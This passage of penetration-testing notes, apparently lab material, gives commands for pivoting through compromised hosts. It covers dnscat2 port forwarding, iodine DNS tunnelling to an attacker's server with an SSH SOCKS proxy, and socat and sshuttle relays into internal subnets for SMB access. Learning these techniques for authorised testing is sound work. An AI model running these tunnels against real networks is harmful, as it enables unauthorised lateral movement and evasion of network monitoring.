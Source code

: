 ```sh
# Now on the server we list all active windows and select the one is there plus list commands
dnscat2> windows
dnscat2> window -i 1
command (Cmachine) 1> ?
# With listen command we can set up a listening port on the server (usage is like ssh -L)
command (Cmachine) 1> listen 127.0.0.1:6666 172.16.7.27:445 # 172.x.x.x is the target IP (dnscat client)
# From another shell now we could access that SMB port
user@D smbclient -p 6666 -L //127.0.0.1 -U $USER --password=$PASS

# TCPoverDNS
https://github.com/yarrick/iodine
    Ensure to update the DNS records and create new NS (nameserver) points to your AttackBox machine
    Run iodined server from AttackBox or the Attacker machine. (note for the server side we use iodined)
    On JumpBox/pivot machine, run the iodine client to establish the connection. (note for the client side we use iodine - without d)
    SSH to the machine on the created network interface to create a proxy over DNS. We will be using the -D argument to create a dynamic port forwarding.
    Once an SSH connection is established, we can use the local IP and the local port as a proxy in Firefox or ProxyChains.
# run server on the attacker, set network IP for the new dns0 interface (server IP 10.1.1.1 / client IP 10.1.1.2), att
thm@attacker$ sudo iodined -f -c -P thmpass 10.1.1.1/24 name.server.com
# on the jumpbox/pivot machine, use the client to connect to the server
thm@jump-box:~$ sudo iodine -P thmpass name.server.com
# Now on the attacker machine we use ssh session as a proxy 
ssh thm@10.1.1.2 -4 -f -N -D 1080
# Now that we have connected to JumpBox/pivot over the dns0 network, open a new terminal and use ProxyChains or Firefox with 127.0.0.1 and port 1080 as proxy settings. 
root@attacker$ proxychains curl http://192.168.0.100/demo.php
root@attacker$ #OR
root@attacker$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php
```
{% endcode %}

## sshuttle (Linux only)

{% code overflow="wrap" %}
```bash
sudo apt install sshuttle

# NOTE: it requires root privileges on the SSH client and Python3 on the SSH server
# A -> B -> C -> D   //  from B with C creds (SSH) we will access D subnet
compromised@machine socat TCP-LISTEN:4444,fork TCP:10.8.8.20:22 # listening port, C machine IP and destination port 
kali@kali sshuttle -r user@B_TARGET_IP:4444 10.4.50.0/24 172.16.15.0/24 # user@IP is C machine SSH creds, then the C subnets we want to tunnel
# Then we could access a specific D target visible from C host using Kali attacking machine, to connect to its SMB port for example
kali@kali smbclient -L //172.16.15.7/ -U $USER --password=$PASS


sshuttle -r username@address subnet  #e xample
# 172.16.0.x network with a compromised server at 172.16.0.5
sshuttle -r user@172.16.0.5 172.16.0.0/24

# -N to not specify subnet and try to guess it automatically
sshuttle -r username@address -N

# key-based authentication
sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET
```